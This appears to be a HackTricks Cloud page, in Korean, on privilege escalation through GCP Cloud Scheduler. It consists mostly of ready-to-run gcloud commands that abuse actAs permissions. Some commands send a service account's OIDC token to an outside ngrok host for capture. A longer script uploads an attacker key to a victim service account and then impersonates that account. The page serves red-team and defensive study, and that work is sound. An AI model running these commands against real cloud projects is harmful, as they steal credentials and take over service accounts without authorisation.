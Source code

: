 # GCP - Cloud Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Scheduler

자세한 정보는 다음을 참조하세요:

{% content-ref url="../gcp-services/gcp-cloud-scheduler-enum.md" %}
[gcp-cloud-scheduler-enum.md](../gcp-services/gcp-cloud-scheduler-enum.md)
{% endcontent-ref %}

### `cloudscheduler.jobs.create` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

이 권한을 가진 공격자는 **Cloud Scheduler**를 이용해 **특정 서비스 계정으로 크론 작업을 인증**할 수 있습니다. HTTP POST 요청을 조작하여 공격자는 Storage 버킷 생성과 같은 작업을 서비스 계정의 신원으로 실행하도록 예약합니다. 이 방법은 **스케줄러가 `*.googleapis.com` 엔드포인트를 타겟팅하고 요청을 인증하는 능력을 활용**하여 공격자가 간단한 `gcloud` 명령을 사용해 Google API 엔드포인트를 직접 조작할 수 있게 합니다.

* **OAuth 토큰 헤더로 `googleapis.com`을 통해 모든 Google API에 접속**

새 Storage 버킷 생성:

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```
{% endcode %}

권한을 상승시키기 위해, **공격자는 지정된 서비스 계정을 가장하여 원하는 API를 대상으로 하는 HTTP 요청을 작성하기만 하면 됩니다.**

* **OIDC 서비스 계정 토큰 유출**

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
{% endcode %}

HTTP 응답을 확인해야 하는 경우 **실행 로그를 확인할 수 있습니다**.

### `cloudscheduler.jobs.update`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

이전 시나리오와 마찬가지로 **이미 생성된 스케줄러를 업데이트**하여 토큰을 훔치거나 작업을 수행할 수 있습니다. 예를 들어:

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
{% endcode %}

SA에 개인 키를 업로드하고 이를 가장하는 또 다른 예:

{% code overflow="wrap" %}
```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
-keyout /tmp/private_key.pem \
-out /tmp/public_key.pem \
-subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
--schedule='* * * * *' \
--uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
--message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
--update-headers "Content-Type=application/json" \
--location us-central1 \
--oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
"type": "service_account",
"project_id": "$PROJECT_ID",
"private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
"private_key": $private_key_json,
"client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
"client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
"auth_uri": "https://accounts.google.com/o/oauth2/auth",
"token_uri": "https://oauth2.googleapis.com/token",
"auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
"client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
"universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```
{% endcode %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
